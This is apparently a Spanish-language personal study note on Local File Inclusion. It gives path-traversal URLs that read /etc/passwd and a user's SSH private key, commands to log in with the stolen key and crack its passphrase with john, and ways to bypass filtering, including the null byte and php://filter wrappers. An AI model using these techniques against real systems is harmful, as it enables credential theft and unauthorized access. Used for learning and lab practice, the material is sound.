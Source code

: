 
-------------
#vulnerabilidad #explotacion 


_La inclusión de archivos locales_ (LFI) es una vulnerabilidad web que permite a un pirata informático malintencionado acceder, ver o incluir archivos ubicados en el sistema de archivos del servidor web dentro de la carpeta raíz del documento.

Normalmente los LFI se presentan cuando en la URL nos da equivalencias en la búsqueda de archivos como por ejemplo la siguiente :

![[Pasted image 20251020221143.png]]

#### Esta vulnerabilidad al generar equivalencia hacia un documento permite que nos podamos mover de directorio en directorio de la siguiente forma

```python
http://192.168.0.23/tools/check_if_exist.php?doc=keyboard.html  #Url Completa
http://192.168.0.23/tools/check_if_exist.php?doc=               #Url sin la igualdad al recurso
http://192.168.0.23/tools/check_if_exist.php?doc=../../../../../../../      # De esta forma y con mas podremos llegar al directorio raiz
http://192.168.0.23/tools/check_if_exist.php?doc=../../../../../../../etc/passwd    # Obtenemos acceso al archivo de usuarios registrados
```

El usuario que existiría seria uno que tuviera un directorio /home como se muestra a continuación:

![[Pasted image 20251020222502.png]]

- Para ganar acceso a la maquina podemos hacerlo con un [[Log Poisoning (LFI a un RCE)]] o mediante el control de un fichero *id_rsa* de la siguiente manera:

```python
http://192.168.0.23/tools/check_if_exist.php?doc=../../../../../../../home/<Usuario>/.ssh/id_rsa    # Apuntamos al fichero id_rsa 
```

- Veriamos algo como esto que es la llave privada del usuario:
*Con CTRL + u  podemos ver esto en código fuente para poder copiarlo mas fácilmente * 
![[Pasted image 20251020222802.png]]

- Con esto copiado nos creamos la clave privada en nuestra maquina atacante de la siguiente manera para poder entrar por [[p22 - SSH (Secure Shell)]]:

```bash
nano id_rsa    # Creamos el archivo y copiamos la clave privada
chmod 600 id_rsa  # Le damos los permisos que por defecto usan los archivos de tipo id_rsa
ssh -i id_rsa <usuario>@<Ipvictima> # Entrar con una clave privada con <Usuario> y en la <Ipvictima>
```

- Al entrar nos pedirá un passphrase del archivo por lo que podemos emplear [[john]] de la siguiente manera:

```bash
ssh2john id_rsa > hash  # Extraemos el hash del passphrase del id_rsa
john --wordlist=/usr/share/wordlist/rockyou.txt hash # Crakeamos el hash
```



---
### Preparación de laboratorio para practica LFI 


Incluir archivos locales de la maquina

creamos en la ruta /var/www/html un script de php que nos permmite subir a nuestro servidor por el puerto 80 cualquier archivo que queramos, de la siguiente manera :

![[Pasted image 20240923203421.png]]

aparte de activar lo servicios de apache con

```bash
service apache2 start
```

asi mirariamos el archivo que queremos mediante nuestro servicio de apache activado

![[Pasted image 20240923204152.png]]

de la siguiente manera nos podríamos salir del directorio actual de trabajo y dirigirnos a la raiz del sistema para asi listar el directorio que queramos
![[Pasted image 20240923204523.png]]

una manera de defensa seria cambiar la cadena de ../../ remplazandola en el script para que de lo contrario siempre que aparezca eso lo cambie por cadenas vacias

![[Pasted image 20240923205210.png]]

eso es lo que haria la funcion de `str_replace `

sin embargo como no es recursivo ese tipo de defensa se podria hacer lo siguiente:
![[Pasted image 20240923205419.png]]

en donde una vesz elmininados los caracteres integrados se quedan almacenados los otros para viajae a la raiz de forma `../../../`

otra forma de defensa es banear palabras mediante el uso de condicionales de la siguiente forma:

![[Pasted image 20240923210012.png]]

si embargo de la siguiente forma se puiede evitar esto añadiendo puntos y barras atras de la expresion baneada, ademas tambien puedes usar interrogamntes en algunos caracteres que el sistema tambien te lo va a interpretas :

![[Pasted image 20240923210108.png]] ![[Pasted image 20240923210351.png]]

otra forma de defensa podria ser la siguiente:

![[Pasted image 20240923210818.png]]
 en donde le añaden una extension a la ruta que quieres buscar pero eso se puede saltar de la siguiente manera usando el famoso null bit que es  `%00` , esto solo funciona en las versiones desactualizadas de php, versiones anteriores a la 5.3:

 
![[Pasted image 20240923210931.png]]

otra forma de defensa podria ser agregando al script que si los ultimos caracteres de una linea son iguales a la palabra que queremos mostrar , no nos muetsre nada de la siguiente forma:
![[Pasted image 20240923212032.png]]

sin embargo para versiones desactualizadas de php si ponemos un `/.` al final de la expresion rompera ese bloqueo y mostrara el arvhivo 

--------------

## WRAPPERS

se puede jugar con wrappers para enviar toda la infromacion del LFI a diferentes rutas o encodamientos, de la siguiente forma se podria hacer:

![[Pasted image 20240923213206.png]]

usando el wrapper de encodificacion para mandarlo a base 64: 

```
php://filter/convert.base64-encode/resource=RECURSO AL QUE QUERMOS APUNTAR 
```

Otro wrapper para rotar posciciones de caracateres pódria ser el siguinete:

![[Pasted image 20240923214058.png]]

rotacion de caracteres

![[Pasted image 20240923214639.png]]

wrapper para ver el script de php del sistema:

![[Pasted image 20240923214813.png]]

wrapper de inyeccion de comandos:

![[Pasted image 20240923215258.png]]

otra inyteccion de comandos alterna es pásarle en base 64 lo que quieres que haga la maquina, en este caso entablar un cmd de ejecucion de comandos

![[Pasted image 20240923215553.png]]

CTRL+U para URL encodear y que no molesten caracteres como el "+", de la siguiente manera ya con el comando en base 64 activas la inyeccion de codigo:

![[Pasted image 20240923215816.png]]

hay otro wrapper que permitiria entablar otra conexion cmd y seria con lo siguiente :

![[Pasted image 20240923223110.png]]

en donde codificas y decodificas una intruccion que podria ser un termianl cmd y lo mandas al terminal, la codificacion del comando que quieras lo puedes hacer a traves de la herramienta d egithub 

![[Pasted image 20240923223243.png]]

en donde la descargas y pones el comando que quieres codificar, una vez hecho esto puedes jugar con un comando que te active un remoto de cmd y jugar ya con comandos normales de la siguiente forma:

![[Pasted image 20240923223430.png]]

